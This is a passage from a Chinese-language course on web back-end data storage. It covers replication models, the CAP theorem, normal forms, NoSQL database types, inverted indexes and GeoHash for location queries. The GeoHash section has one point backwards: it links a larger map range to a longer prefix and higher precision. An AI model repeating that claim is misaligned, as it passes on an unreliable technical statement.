- 如果系统不容许错误发生，即返回错误给用户，一致性就被严格保证了，但是这样的话，整个存储系统就不再是高可用了，因为任何一个主节点的不可用，就会导致其它任意主节点向其拷贝数据的失败，进而导致整个系统都变得不可用。我们使用多个主节点的目的就是要提高可用性，而现在这样的设计和高可用性的目的就自相矛盾了。

其实，对待这个节点间的数据拷贝错误，还有第三种方式，它结合了上述二者的优点。我先卖个关子，我们在下面 Master-Slave 的部分会谈到。

再来说说 Multi-Master 的缺陷。**它最大的缺陷是关于事务处理的，本地事务（即单个存储节点）可以提交成功，但是全局事务（所有存储节点）却可能失败。**它包含这样两种典型的产生问题的场景：

- 由于是最终一致性，那么数据丢失也是可能发生的，即在写操作成功而节点间数据拷贝还没完成的时刻，如果主节点挂掉了，那么数据丢失也就发生了，只不过丢失的数据可能相对较少，但是全局事务的完整性就无从谈起了。
- 如果没有节点异常，主节点 A 的事务提交成功，主节点 B 的事务也提交成功，它们是做到了对本地数据库中事务操作的原子性。可是当进行节点间数据互拷贝时，一旦这两个提交的事务发生冲突（例如修改同一条记录），它们就傻眼了，到底应该以 A 还是以 B 的事务为准？这种冲突的解决会比较复杂，而且由于发生在异步的拷贝环节，这时候用户的请求都已经返回响应了，就没法告知用户事务冲突了。

因此，当我们要实现全局事务的时候，Multi-Master 往往不是一个好的选择。

## 3. Master-Slave

Master-Slave 架构是指存在一个可读可写（或者只写）的 Master 节点，而存在多个只读的 Slave 节点，每当有通过 Master 的更新出现，数据会以异步的方式单向拷贝到所有的 Slave 节点上去。


这种方式和 Multi-Master 比起来，将可写的节点数减少为了一个，而允许有多个只读的节点（图中只画了一个，但实际可以有多个），这种方式比较适用互联网较常见的业务，即读远大于写的场景，而且读的可扩展性（Scalability）较强（即增加一个 Slave 节点的代价较小），而且不存在 Multi-Master 的事务冲突问题。

当然了，**Master-Slave 的缺点也很明显。既然只有一个可写的节点**，那么写的可扩展性就很差了；而且和 Multi-Master 一样，数据从 Master 到 Slave 的拷贝是异步进行的，因此数据存在丢失的可能。

和 Multi-Master 一样，我们当然也可以让数据拷贝变成同步进行的，但是这又存在着上文讨论过的同样的缺陷。但是，有一种介于全同步和全异步之间的缓解这个问题的方法，即“最小副本数量”，比如可能存在 5 个 Slave 节点，但是从 Master 到 Slave 的数据拷贝一旦在 2 个节点成功了，就不用等另外 3 个返回，直接返回用户操作成功。即便那 3 个中存在失败，系统也可以标记失败节点，并按照既定策略自动处理掉，而不影响用户感知。

因此，**我们可以说这种数据拷贝的方法是“部分同步”“部分异步”的，既降低了数据丢失的可能，又避免了因为某个 Slave 问题而导致 Master“死等”的情况发生。**

最后，值得注意的是，写现在变成单点的了，为了避免单点故障引起的服务中断，一种方式是在 Master 挂掉的时候，Slave 可以挺身而出，变为 Master 顶上去提供写的服务。但是这件事情说说容易，实际要让它自动发生却有大量的工作要做，比如，谁顶上去，以及顶上去了之后，原来以为挂掉的 Master 又活过来了怎么办，等等。

## 4. 其它

还有其它更为复杂的方法，一种是 2PC 或 3PC，即两阶段提交或三阶段提交，甚至采用高容错的分布式的共识算法 Paxos。这些方法能够保证强一致性，但是在实现上都要复杂许多，我在今天的扩展阅读中会介绍它们。

下面这张比较的表格来自 Transactions Across Datacenters 这个著名的演讲，这张图在互联网上流传很广。


简单说明一下，从上到下每行的含义依次为：一致性、事务支持、延迟、吞吐量、数据丢失和故障转移（指的是节点出现故障以后，其它节点可以自动顶替上来的能力）。

从中我们可以看到，没有一列能够做到全绿色，这正如我们所知道的那样，软件工程上的问题都“没有银弹”。特别是，Backups、M/S 和 MM 得益于异步的副本拷贝，能够做到低延迟，这就无法做到强一致性；而 2PC 和 Paxos 通过同步操作可以做到强一致性，却带来了高延迟。

<h1 id="chapter24">24 | 尺有所短，寸有所长：CAP和数据存储技术选择</h1>

## 理解概念

我想，你已经很熟悉一致性了。今天，在一致性之后，我们也要涉及到 CAP 的另外的两个方面——可用性和分区容忍性。

## 1. CAP 的概念

CAP 理论，又叫做布鲁尔理论（Brewer’s Theorem），指的是在一个共享数据的分布式存储系统中，下面三者最多只能同时保证二者，对这三者简单描述如下：

- 一致性（Consistency）：读操作得到最近一次写入的数据（其实就是上一讲我们讲的强一致性）；
- 可用性（Availability）：请求在限定时间内从非失败的节点得到非失败的响应；
- 分区容忍性（Partition Tolerance）：系统允许节点间网络消息的丢失或延迟（出现分区）。

下面，请让我进一步说明，从而帮助你理解。

**一致性，这里体现了这个存储系统对统一数据提供的读写操作是线性化的。**如果客户端写入数据，并且写操作返回成功给客户端，那么在下一次读取的时候（下一次写入以前），如果系统返回了“非失败”的响应，就一定是读出了完整、正确（最新）的那份数据，而不会读取到过期数据，也不会读取到中间数据。

**可用性，体现的是存储系统持续提供服务的能力**，这里表现在两个方面：

- **返回“非失败”的响应**，就是说，不是光有响应就可以了，系统得是在实实在在地提供服务，而不是在报错；
- **在限定时间内返回**，就是说，这个响应是预期时间内返回的，而不出现请求超时。

请注意，这里说的是“非失败”响应，而并没有说“正确”的响应。也就是说，返回了数据，但可以是过期的，可以是中间数据，因为数据是否“正确”并非由可用性来保证，而是由一致性来保证的。系统的单个节点可能会在任意时间内故障、出错，但是系统总能够靠处于非失败（non-failing）状态的其它节点来继续提供服务，保证可用性。

**分区容忍性，体现了系统是否能够接纳基于数据的网络分区**。只要出现了网络故障，无论什么原因导致某个节点和系统的其它节点失去了联系，节点间的数据同步操作无法被“及时”完成，那么，即便它依然可以对外（客户端）提供服务，网络分区也已经出现了。

当然，如果数据只有一份，不存在其它节点保存的副本，或不需要跨节点的数据共享，那么，这就不存在“分区”，这样的分布式存储系统也就不是 CAP 关心的对象。

## 2. 进一步理解

如果你觉得模糊，没关系，让我使用一个简单的图示来帮你理解。


有这样一个存储系统，存在两个节点 A 和 B，各自存放一份数据拷贝。那么在正常情况下，客户端无论写数据到 A 还是 B，都需要将数据同步到另一个节点，再返回成功。比如图示中带序号的四个箭头：

- 箭头 ①，客户端写数据到节点 A；
- 箭头 ②，节点 A 同步数据变更到节点 B；
- 箭头 ③，节点 B 返回成功响应到节点 A；
- 箭头 ④，节点 A 返回成功响应给客户端。

不知道你有没有回想起 [第 23 讲] 中的 Multi-Master 架构，对，但唯一需要特别指出的不同是，节点间数据拷贝是同步进行的，需要完成拷贝以后再返回响应，因为我们需要保证一致性。

之后，客户端尝试读取刚写入的数据，无论是从节点 A 还是 B，都可以得到准确的数据：


好，这种情况下数据在 A、B 上都是一致的，并且系统也是可用的。

但是，现在网络突然出现故障，A 和 B 之间的数据拷贝通道被打断了，也就是说，分区发生了。这时候客户端再写入 A 就会出现以下情况：


你看，这时候节点 A 已经无法将数据“及时”同步到节点 B 了， 那么，节点 A 是否应该将数据写入自己，并返回“成功”给客户端呢？它陷入了两难：

- **如果写入并返回成功，满足系统的可用性，就意味着丢失了数据一致性**。因为节点 A 的数据是最新的，而节点 B 的数据是过期的。
- **如果不写入数据，而直接返回失败，**即节点 A 拒绝写操作，那么 A 和 B 节点上的**数据依然满足一致性（写入失败，但依然都是相互一致的老数据），但是整个系统失去了可用性。**

你看，我们怎么也无法同时保证一致性、可用性和分区容忍性这三者。

## 3. 三选二 ？

紧接着我要谈一谈对于 CAP 理论一个很大的误解——三选二。从上面对于 CAP 的描述来看， CAP 的应用似乎就是一个三选二的选择题，但事实上，完全不是这样的。

开门见山地说，**在讨论 CAP 定理的时候，P，也就是分区容忍性，是必选项**。具体来说，跨区域的系统，分区容忍性往往是不可以拿掉的，因为无论是硬件损坏、机房断电，还是地震海啸，都是无法预料、无法避免的，任何时间都可能出现网络故障而发生分区，因此工程师能做的，就是从 CP 和 AP 中选择合适的那一个。

你可以想想上面我拿图示举的那个例子，在分区发生的时候，最多只能保证一致性和可用性一个。也就是说，CAP 理论不是三选二的，而是二选一，当然，具体选哪个，我们需要“权衡”。

需要特别说明的是，**这里说的是只能“保证”一致性和可用性二者之一，而不是说，在系统正常运行时，二者不可能“同时满足”**。在系统运行正常的时候，网络分区没有出现，那么技术上我们是可能同时满足一致性和可用性两者的。

这时你可能会问，难道没有 CA，即同时“保证”一致性和可用性，而牺牲掉分区容忍性的系统吗？

有！**但请注意，那其实已经不是 CAP 理论关心的对象了，因为 CAP 要求的是节点间的数据交换和数据共享。**任何时候都不会有分区发生，这种系统基本上有这样两种形式：

- **单节点系统**，这很好理解，没有节点间数据的交换，那么无论网络出不出故障，系统始终只包含一个节点。比方说，传统的关系型数据库，像 MySQL 或者 OracleDB，在单节点的配置下。
- **虽然是多节点，但是节点间没有数据共享和数据交换**——即节点上的数据不需要拷贝到其它节点上。比方说，无数据副本（Replica）配置的集群 Elasticsearch 或 Memcached，在经过 hash 以后，每个节点都存放着单份不同的数据。这种情况看起来也算分布式存储，但是节点之间是互相独立的。

## 存储技术的选择：NoSQL 三角形

在谈到根据 CAP 来选择技术的时候，我想先来介绍一下 NoSQL，你将会看到它们大量地分布在下面“NoSQL 三角形”的 CP 和 AP 两条边上。

那么，到底什么是 NoSQL 呢？我们可以简单地认为，NoSQL 是“非关系数据库”，和它相对应的是传统的“关系数据库”。它被设计出来的目的，并非要取代关系数据库，而是成为关系数据库的补充，即“Not Only SQL”。

也就是说，它放弃了对于“关系”的支持，**损失了强结构定义和关系查询等能力，但是它往往可以具备比关系数据库高得多的性能和横向扩展性（scalability）等优势**。这在 Web 2.0 时代对于一些关系数据库不擅长的场景，例如数据量巨大，数据之间的关联关系较弱，数据结构（schema）多变，强可用性要求和低一致性要求等等，NoSQL 可以发挥其最大的价值。

在实际业务中，我们可以利用 CAP 定理来权衡和帮助选择合适的存储技术，且看下面这张 NoSQL 系统的 CAP 三角形（来自 Visual Guide to NoSQL Systems）。尺有所短，寸有所长，我们可以从 CAP 的角度来理解这些技术的优劣。


从图中可以发现，关系数据几乎都落在了 CA 一侧，但是请注意，技术也在不断更新，许多关系数据库如今也可以通过配置而形成其它节点的数据冗余；有时，我们则是在其上方自己实现数据冗余，比如配置数据库的数据同步到备份数据库。

无论哪一种方法，一旦其它节点用于数据冗余的数据副本出现，这个存储系统就落到上述三角形的另外两边去了。

云上的 NoSQL 存储服务，多数落在了 AP 一侧，这也和 NoSQL 运动可用性优先保证而降级一致性的主题符合。比如 Amazon 的 DynamoDB，但是这个也是可以通过不同的设置选项来改变的，比如 DynamoDB 默认采用最终一致性，但也允许配置为强一致性，那时它就落到了 CP 上面。

## 实际场景

接着我们考虑几个实际应用场景，看看该采用哪一条边的技术呢？既然是基于 Web 的全栈工程师的技术学习，我就来举两个基于网站应用的例子。

还记得我们在 [第 09 讲] 中谈到的页面聚合吗？对于门户网站来说，无论是显示的数据，还是图片、样式等等静态资源，通过 CDN 的方式，都可以把副本存放在离用户较近的节点，这样它们的获取可以减少延迟，提高用户体验。因此，这些系统联合起来，就形成了一个可以使用 CAP 讨论的分布式系统。

那么，很容易理解的是，且不用说网络故障而发生分区的情况，即便在正常情况下，这些信息并不需要具备那么严格的“即时性”，新闻早显示、晚显示几秒钟，乃至几分钟，都不是什么问题，上海的读者比北京的读者晚看到一会儿，也不是什么问题。但是，大型网站页面打不开，就是一个问题了，这显然会影响用户的体验。因此，从这个角度说，我们可以牺牲一致性，但需要尽量保证可用性，因此这是一个选择 AP 的例子。

事实上，对于大型的系统而言，我们往往不需要严格的一致性，但是我们希望保证可用性，因此在大多数情况下我们都会选择 AP。但是，有时情况却未必如此。

再举一个例子，航空公司卖机票，在不考虑超售的情况下，一座一票，航空公司的网站当然可以采用上面类似的做法；有时，甚至在正常的情况下，余票的显示都可以不是非常准确的（比如显示“有票”可以避免显示这个具体数字）。但是，当客户真正在选座售票的时候，即扣款和出票的时候就不是这样的了，一致性必须优先保证。因为如果可用性保证不了，即有时候订票失败，用户最多也就是牢骚几句，这还可以接受，但要是出现一致性问题，即两个人订了同一个座位的票，那就是很严重的问题了。

最后，我想说的是，这里的选择是一个带有灰度的过程，并非只有 0 和 1 这两个绝对的答案，我们还是需要具体问题具体分析，不要一刀切。

**从特性上说，甚至可以部分特性做到 CP，部分做到 AP，这都是有可能的**。比如说，涉及钱的问题一定是 CP 吗？不一定，ATM 机就是一个很经典的例子，在网络故障发生时，ATM 会处于 stand-alone 模式，在这种模式下，用户依然可以执行查询余额等操作（很可能数额不准确），甚至还可以取款，但是这时的取款会有所限制，例如限制一个额度（银行承担风险），或者是限制只能给某些银行的卡取款，毕竟可用性和一致性的丢失会带来不同的风险和后果，两害相权取其轻。

<h1 id="chapter25">25 | 设计数据持久层（上）：理论分析</h1>

持久层的设计包括持久化框架选择、持久层代码设计，以及存储技术选型等等，考虑到这其中有部分内容我们在第二章谈论 MVC 模型层的时候已经讲到过了，那么在这一讲和下一讲中，我就会先偏重于持久层的数据存储技术本身，再结合实际的设计案例来介绍怎样选择合适的技术来解决那些经典的实际问题。

## 关系数据库

关系数据库就是以“关系模型”为基础而建立的数据库，这里的关系模型说的是数据可以通过数学上的关系表示和关联起来，也就是说，关系模型最终可以通过二维表格的结构来表达。关系数据库除了带来了明确的 schema 和关系以外，还带来了对事务的支持，也就是对于强一致性的支持。

## 数据库范式

数据库的表设计，可以说是全栈工程师经常需要面对的问题。而这部分，其实是有“套路”可循的，其中一些常见的规范要求，就被总结为不同的“范式”（Normal Form）。它可以说是数据库表设计的基础，对于数据库表设计很有实际的指导意义。我注意到有很多程序员朋友都不太清楚不同范式的实际含义，那么今天，就请让我通过一个尽可能简单的图书管理系统的例子，来把它讲清楚。

## 1. 第一范式（1 NF）

**第一范式要求每个属性值都是不可再分的**。满足 1NF 的关系被称为规范化的关系，1NF 也是关系模式应具备的最起码的条件。比如下面这样的 Books 表：


你看，在上面这张表中，有两本书重名了，都叫“Life”，但是国际标准书号 ISBN 是不同的。放在了同一个属性 ISBN 中，并非不可再分，这显然违反了第一范式。那解决这个问题的办法就是拆分：


## 2. 第二范式（2 NF）

**第二范式要求去除局部依赖**。也就是说，表中的属性完全依赖于全部主键，而不是部分主键。


你看，在上面这张表中，原本的设计是想让 BOOK_ID 和 AUTHOR_ID 组成联合主键，但是，BOOK_NAME 仅仅依赖于部分主键 BOOK_ID，而 AUTHOR_NAME 也仅仅依赖于部分主键 AUTHOR_ID，违背了第二范式 。解决的办法依然是拆分，把这个可以独立被依赖的部分主键拿出去，上面的表可以拆成下面这样两张表：


从这个拆分中我们也可以看到，原表被拆成了 N 对 1 关系的两个表，而被不合范式依赖的那个“部分主键”，变成了“1”这头的主键。

## 3. 第三范式（3 NF）

**第三范式要求去除非主属性的传递依赖**。即在第二范式的基础上，非主属性必须直接依赖于主键，而不能传递依赖于主键。


你看上面这张表，主键是 BOOK_ID，而 CATEGORY_NAME 是非关键字段，并非直接依赖于主键，而是通过这样的传递依赖实现：

> CATEGORY_NAME → CATEGORY_ID → BOOK_ID

因此，为了消除这个传递依赖，我们还是拆表，让这个传递链中间的 CATEGORY_ID 自立门户：


一般我们在设计中分析到第三范式就打住了，很少有情况会考虑更为严格的范式。例如，BC 范式和第三范式就很像，但是，第三范式只是消除了非主属性对主属性的传递依赖，而 BC 范式更进一步，要求消除主属性对主属性的传递依赖，从而，消除所有属性对主属性的传递依赖。

当然，还有第四、第五范式等等，要求更加严格，解耦更加彻底，但却不太常用了，如果你想进一步了解，可以参阅维基百科的词条。

范式的程度更高，冗余度便更低。但正如同我们在第二章介绍的“拆分”大法一样，每一次范式的升级都意味着一个拆表的过程，一旦过度解耦，拆分出太多零散的表，对于程序员的理解，脑海中数据模型的建立，甚至包括联表操作的 I/O 性能，都是不利的。因此我们需要“权衡”，掌握好这个度，**这一原则，和我们介绍过的分层设计是一致的**。

## NoSQL

在上一讲中，我已经介绍了 NoSQL 的概念。在 NoSQL 出现以前，设计大型网站等 Web 应用的时候，全栈工程师的武器库里可供使用的选择，要局限得多。尤其是对一些量大且非结构化的数据，缺乏特别理想的解决方法，工程师有时不得不采用一些非常规的特殊方案，而更多时候我们只能在传统关系数据库的基础上，使用数据库的 Sharding 和 Partition 这样的操作。

虽然那时候在数据规模上面临的挑战远没有现在大，可那个时候 DBA（Database Administrator）在市场上可以说是炙手可热，一旦出了问题，有时甚至还得请专门的数据库厂商的专家，这其中的费用极其高昂，是以分钟计算的。

如今，你可能听说过许多互联网企业去 IOE 的故事（IOE 指的是 IBM 的小型机、Oracle 数据库、EMC 存储设备这三者），其中阿里巴巴的版本听起来还颇为传奇。事实上，这可不只是只有国内的阿里巴巴曾经努力做的事情，还是全球许多大型互联网企业都曾经或正在做的事情，也包括 Amazon。我曾经在 Amazon 的销量预测团队中工作，当时我们团队可以说就在整个亚马逊最大的传统（非云上）关系数据库上工作，里面存放了全部商品库存、销量等有关的信息。

Web 2.0 时代的到来，为互联网应用带来了深远的影响，**用户代替传统媒体，成为了 Web 2.0 时代主要的数据制造者。海量、不定结构、弱关联关系、高可用性和低一致性要求的数据特点，让关系数据库力不从心；而 NoSQL 则具有更好的横向扩展性、海量数据支持、易维护和廉价等等优势，犹如一剂特效药，成为了市场上这个数据难题的大杀器。**

当然，现实中依然存在大量需要强一致性和关系查询的业务场景，因此关系数据库依然是我们倚赖的重要工具。可是，**依然使用关系数据库并不代表依然靠互联网企业自己亲力亲为地做繁重的数据库管理工作**，关系数据库云服务的崛起将传统的数据库管理工作自动化，于是普通的软件工程师也可以完成以往 DBA 才能完成的工作了。从这里也能看出，DBA 也确实是一个技术变更影响技术人才市场需求的典型例子。

综上，这个数据的问题就有了两个层次的解决方案：

- 出现了更适合业务的非关系数据库服务，也就是 NoSQL；
- 把关系数据库搬到云上，从而让互联网企业从繁重的数据库管理工作中解脱出来，例如 RDS。

## NoSQL 数据库的分类

别看 NoSQL 的数据库那么多，它们大致可以被分为这样几类，每一类也都有自己的优势和劣势。在介绍每一类的时候，我会以我比较熟悉的 AWS 上的实现来具体介绍，当然，很可能你见过的是其它的例子（比如非云上的本地版本，再比如不同的云服务厂商都会提供自己的实现），但在原理层面都是类似的。

## 1. 键值（Key-value）数据库

这一类 NoSQL 的数据库，采用的是 key-value 这样的访问模型，也就是说，可以根据一个唯一的 key 来获取所需要的值，这个 key 被称为主键，而这个根据 key 来获取 value 的访问的过程是通过 Hash 算法来实现的。本地的 Redis 或者云上的 DynamoDB 都属于这一类。

以 DynamoDB 为例，它的 key 由 Partition Key 和 Sort Key 两级组成，即前者用来找到数据存在哪一个存储单元（Storage Unit），而后者用来找到 value 在存储单元上的具体位置。通常来说，这个二级 Hash 的过程时间开销并不会随着数据量的增大而增大，下图来自官方的 Blog：


DynamoDB 表结构看起来和传统的关系数据库有些像，并且每一行的 schema 可以完全不同，即“列”可以是任意的。每张表的数据支持有限的范围查询，包括主键的范围查询，以及索引列的范围查询。其中，索引的数量是有着明确限制的，一种是全局的（相当于 Partition Key + Sort Key），每张表上限 20 个；一种是本地的（相当于 Partition Key 已经确定，只通过 Sort Key 索引），每张表上限 5 个。

## 2. 列式（Columnar）数据库

经典的数据库是面向行的，即数据在存储的时候，每一行的数据是放在一起的，这样数据库在读取磁盘上连续数据的时候，实际每次可以一气读取若干行。如果需要完整地查询出特定某些行的数据，行数据库是高效的。且看下面的示例，来自 Redshift 官方文档：


但是列式数据库不一样，它是将每一列的数据放在一起。这样的话，如果我们的处理逻辑是要求取出所有数据中的特定列，那么列数据库就是更好的选择：


事实上，对于数据库来说，磁盘的读、写本身，往往还不是最慢的，最慢的是寻址操作。因此，无论是行数据库还是列数据库，如果根据实际需要，**我们的实际访问能够从随机访问变成顺序访问，那么就可以极大地提高效率**。在大数据处理中经常使用的 HBase 和云上的 Redshift 都属于这一类。

和行数据库相比，列数据库还有一些其它的好处。比如说，对于很多数据来说，某一个特定列都是满足某种特定的格式的，那么列数据库就可以根据这种格式来执行特定的压缩操作。

## 3. 文档（Document）数据库

文档数据库是前面提到的键值数据库的演化版，值是以某一种特定的文档格式来存储的，比如 JSON、XML 等等。也就是说，文档携带的数据，是已经指定了既定的编码、格式等等信息的。某一些文档数据库针对文档的特点，提供了对于文档内容查询的功能，这是比原始的键值数据库功能上强大的地方。本地的 MongoDB 和 AWS 上的 DocumentDB 都属于这个类型。

## 4. 对象（Object）数据库

和上面介绍的文档数据库类似，当 value 变成一个可序列化的对象，特别是一个大对象的时候，它就被归类为对象数据库了。AWS 上最常用的 NoSQL 存储，除了前面介绍过的 DynamoDB，就是 S3 了，它相对成本更为低廉，耐久性（durability，数据不丢失的级别）非常高（达到了 11 个 9），并且存储对象可以很大，因此用户经常把它当做一个“文件系统”来存放各种类型的文件，而把 key 设计成操作系统文件路径这样一级一级的形式，S3 也就被称为“文件系统”。但是，实际上 S3 的“文件”还是和我们所熟悉的操作系统的文件系统有着很大的区别。

当然，还有一些其它的类型，包括图形（Graph）数据库、搜索（Search）数据库等等，我就不一一列举了。

## 演进趋势

我们在这一章已经从一致性、可用性等方面了解了关系数据库和非关系数据库各自的优势，我想，对这两方面，你应该已经有了自己的认识。现在，我想再补充两个角度，让比较更为全面，分别是扩展性和数据的结构性，我们一起来看看持久层的存储技术的演进趋势。

## 1. 从 Scale Up 到 Scale Out

先回顾一下“扩展性”（Scalability，也有翻译为“伸缩性”的）这个概念。

按理说，扩展性是包括“纵向（垂直）扩展”和“横向（水平）扩展”的。当然，如今使用这个词的时候，我们往往特指的是“Scale Out”，也就是横向扩展，说白了，就是通过在同一层上增加硬件资源的方式来增加扩展性，从而提高系统的吞吐量或容量。比如说，增加机器。NoSQL 技术往往具备很强的横向扩展能力，至于其中的一个典型原理，你可以回顾一下 [第 23 讲] 的选修课堂“一致性哈希”，你就会明白，为什么 NoSQL 技术可以很方便地在同一层增加硬件资源了。

可是，你知道吗，在很早以前，人们谈“扩展性”的时候，默认指的却是“Scale Up”。它指的是在硬件设施数量不变的基础上，通过增加单个硬件设施的性能和容量来达到同样的“扩展”目的。比如说，把同一台机器的 CPU 换成更好的，把内存升级，把磁盘换成容量更大的，等等。毕竟，在那时候，程序员对于很多问题的思考都还普遍停留在“单机”的层面上。

**为什么横向扩展如此重要，以至于成为了“扩展性”的默认指代？**

原因很简单，单个硬件设施的性能提升是非常有限的，而且极其昂贵。我记得我刚工作那会儿，去国内某电信运营商开局，众所周知他们“不差钱”，为了提升性能，我们做了很多 Scale Up 的工作，包括把 CPU 升级成了 96 核的。可是你看看现在的互联网公司，哪个会这么玩？因此在现实中，多数情况下，扩容这件事情上，Scale Out 是唯一的选择

## 2. 从结构化数据到非结构化数据

我们使用关系数据库的时候，每一行数据都是严格符合表结构的定义，有多少列，每一列的类型是什么，等等，我们把这类数据叫做“结构化”（structured）数据，而这个确定的“结构”，就是 schema。结构化的数据具备最佳的查询、校验和关联能力。

但是当我们使用 DynamoDB 这样的 NoSQL 数据库的时候，我们发现，每一行数据依然可以分成一列一列的，但是有多少列，或者每一列的类型，或者表示的具体含义，却变得不再固定了。这时候我们说，这样的结构依然存在，但是共通的部分明显比结构化数据少多了，于是我们把它们叫做“半结构化”（semi-structured）的数据。

再一般化，就是“非结构化”（non-structured）数据了，上面说的 S3 就是一个很好的例子。即便 S3 上存储的文件是符合某种结构的（比如 JSON），我们也无法利用这个存储服务来完成依据结构而进行的查询等等操作了。

无论是同步还是异步的数据处理，我们总是希望数据的结构性越强越好，因为“结构”本质上意味着“规则”，越强的结构，就越容易使用简单直白的代码逻辑去处理。可是，恰恰相反的是，**我们在现实中遇到的绝大多数的数据，都是非结构化的**，或者说，很难用某一种特定的规则去套。

<h1 id="chapter26">26 | 设计数据持久层（下）：案例介绍</h1>

## 搜索引擎

小到 BBS 网站的帖子搜索，大到互联网数据搜索引擎，搜索引擎可以说是我们日常接触的几大系统之一。可是，搜索数据的存储该怎么设计呢？

有一些反应迅速的程序员朋友，也许会设想这样的存储结构，利用关系数据库，创建这样一个存储文本（文章）的关系数据库表 ARTICLES：


那么，假如现在的搜索关键字是“存储”，我们就可以利用字符串匹配的方式来对 CONTENT 列进行匹配查询：

```sql
select * from ARTICLES where CONTENT like '%存储%';
```

这很容易就实现了搜索功能。但是，这样的方式有着明显的问题，即使用 % 来进行字符串匹配是非常低效的，因此这样的查询需要遍历整个表（全表扫描）。几篇、几十篇文章的时候，还不是什么问题，但是如果有几十万、几百万的文章，这种方式是完全不可行的。且不说单独的关系数据库表就不能容纳那么大的数据了，就是能够容纳，要扫描一遍，这里的时间代价是难以想象的，就算我们的系统愿意做，用户可都不愿意等啊。

于是，我们就要引**入“倒排索引”（Inverted Index）**的技术了。在前面所述的场景下，我们可以把这个概念拆分为两个部分来解释：

- 倒排”，指的是存储的结构不再是先定位到文章，再去文章的内容中找寻关键字了；而是反过来，先定位到关键字，再去看关键字属于哪些文章。
- “索引”，指的是关键字，是被索引起来的，因此查询的速度会比较快。

好，那上面的 ARTICLES 表依然存在，但现在需要添加一个关键字表 KEYWORDS，并且，KEYWORD 列需要添加索引，因此这条关键字的记录可以被迅速找到：


当然，我们还需要一个关联关系表把 KEYWORDS 表和 ARTICLES 表结合起来，KEYWORD_ID 和 ARTICLE_ID 作为联合主键：


你看，这其实是一个多对多的关系，即同一个关键字可以出现在多篇文章中，而一篇文章可以包含多个不同的关键字。这样，我们可以先根据被索引了的关键字，从 KEYWARDS 表中找到相应的 KEYWORD_ID，进而根据它在上面的关联关系表找到 ARTICLE_ID，再根据它去 ARTICLES 表中找到对应的文章。

这看起来是三次查找，但是因为每次都走索引，就免去了全表扫描，在数据量较小的时候速度并不慢，并且，在使用 SQL 实现的时候，这个过程完全可以放到一个 SQL 语句中。在数据量较小的时候，上面的方法已经足够好用了。

但是，这个方法只解决了全表扫描和字符串 % 匹配查询造成的性能问题，并且，在数据量较大时，并没有解决数据量本身在单机模式下造成的性能问题。

于是，我们可以考虑搭建和使用 Elasticsearch，或者干脆使用云上的版本。Elasticsearch 将关键字使用哈希算法分散到多个不同的被称为“Shard”的虚拟节点，并且把它们部署到不同的机器节点上，且每一个 shard 具备指定数量的冗余副本（Replica），这些副本要求被放置到不同的物理机器节点上。通过这样的方式，我们就可以保证每台机器都只管理稳定且可控的数据量，并且保证了搜索服务数据的可用性。


对于每一个关键字，都可以配置指向文章和文章中位置的映射。比如有这样两篇文章：

> 文章 1 的正文是：今天介绍存储技术。
> 文章 2 的正文是：存储技术有多种分类。

那么，就有如下映射关系（下表仅用于表示在 Shard 中的数据映射，并非关系数据库表）：


你看，DOCUMENT 这一部分，每一行都可以存放若干个“文章 id : 文中关键字的位置”的组合。

## 地理信息系统

有这样一款订餐软件，上面有这样一个功能，在地图上可以列出距离当前用户最近的签约饭馆，并且随着用户缩放地图，还可以控制这个距离的大小。每个饭馆的位置可以简单考虑为经度和纬度组合的坐标（下图来自 Google 地图，仅示意用）。


简言之，这个功能就是“显示一定范围内的目标集合”，可它该怎样实现呢？

在考虑这个功能以前，我们可以类比地想一想，它其实是一个相当常见且通用的功能，常常应用于订餐、导航软件、旅游网站等等这类 LBS（Location-Based Service，基于位置的服务）应用中，因此这个问题是具有一定典型意义的。

这个背后的数据结构以及存储又是怎样的呢？我们顺着这个“经纬度”的思路往下想，那么，如果就把这样的地理信息，放到一张 LOCATIONS 表上，就会是这样：


当然了，还有一张 RESTAURANTS 表：


是，要查出范围内的饭馆，我们就可以写这样的 SQL：

```sql
select * from LOCATIONS l, RESTAURANTS r where
  l.RESTAURANT_ID = r.RESTAURANT_ID and
  l.LONGITUDE >= 经度下界 and
  l.LONGITUDE <= 经度上界 and
  l.LATITUDE >= 纬度下界 and
  l.LATITUDE <= 纬度上界;
```

其中，这个经度、纬度的上下界，是根据用户所在位置，以及地图缩放程度折算出来的。显然，这需要一个全表扫描，加一个笛卡尔积，复杂度偏高，能否优化一下它呢？在往下阅读前，你可以先想一想。

## 思路 1：给单一维度加索引

嗯，如果经纬度可以分开处理，是不是就可以搞定？比方说，只考虑经度的话，给经度一列建立索引，所有饭馆按照从小到大的顺序排好。这样的话，当给定范围的时候，我们就可以快速找到经度范围内所有满足经度条件的饭馆。从时间复杂度的角度来考虑，在不做额外优化的情况下，以在有序经度列上的二分查找为例，这个复杂度是 log(n)。

当再考虑纬度的时候，假如有 m 家满足经度条件的饭馆，接下去我们就只能挨个去检查这 m 家饭馆，找出它们中满足纬度条件的了，也就是说，总的时间复杂度是 m*log(n)。这种方法比较简单，在数据量不太大的情况下也没有太大问题，因此这已经是很好的方法了。但是，在某些场景下这个 m 还有可能比较大，那么，有进一步优化的办法吗？

## 思路 2：GeoHash

其实，经度和纬度的大致思路可以，但是在框选饭馆的时候，不能把经度和纬度分别框选，而应该结合起来框选，并且把复杂度依然控制在 log(n) 的级别。

其中一个办法就是 GeoHash，它的大致思路就是降维。即把一个经度和纬度的二维坐标用一个一维的数来表示。具体实现上，有一种常见的办法就是把经度和纬度用一个长位数的数来表示，比如：

```
经度：101010……
纬度：100110……
```

接着把二者从左到右挨个位拼接，黑色字符来自经度，蓝色字符来自纬度：


在这种方式下，从结果的左边最高位开始，取任意长度截断所得到的前缀，可以用来匹配距离目标位置一定距离范围的所有饭馆。当用户选取的地图范围越大，前缀长度就越长，这个匹配精度也就越高，匹配到的饭馆数量也就越少。通过这种方式，区域不断用前缀的方式来细分，相当于给每个子区域一个标记号码。

那么，我们数据库表中的经度和纬度就可以合并为一列，再令这一列为主键，或者做索引，就能够进行单列的范围查询了。


最后，我们已经走到这一步了，接下来该怎么把这个表落实到数据库中呢？这就有多种方式可供选择了。比如我们可以使用关系数据库（例如 MySQL），也可以使用 NoSQL 中的键值数据库（例如 Redis 等）。这方面可以根据其它业务需求，以及实际开发的限制来选择，具体选择的策略，请继续阅读下文。

## SQL or NoSQL？

我们在实际的存储系统选择时，经常会涉及到 SQL 数据库和 NoSQL 数据库的选择，也就是关系数据库和非关系数据库的选择。举个例子，如果是电子商务网站（这可能是我们平时听到的最多的例子之一了），应该选择 SQL 还是 NoSQL？

## 两个前提角度

